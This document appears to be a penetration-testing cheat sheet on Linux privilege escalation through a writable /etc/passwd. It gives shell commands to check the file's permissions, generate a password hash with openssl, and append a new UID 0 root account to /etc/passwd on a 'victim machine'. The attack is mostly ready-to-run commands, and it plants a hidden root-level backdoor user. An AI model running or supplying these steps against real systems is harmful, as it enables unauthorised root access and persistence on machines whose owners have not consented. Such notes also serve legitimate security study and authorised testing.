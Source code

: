 If the user has write permissions to /etc/passwd, then the machine is vulnerable.
```bash
ls -lah /etc/passwd
```
For backwards compatibility, if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow.
# Create new user in /etc/passwd
## Generate password for new user
```bash
openssl passwd $(NEW_PASSWORD)
```
## Add entry to /etc/passwd
On victim machine:
```bash
echo "$(NEW_USER):$(OPENSSL_OUTPUT):0:0:root:/root:/bin/bash" >> /etc/passwd
```
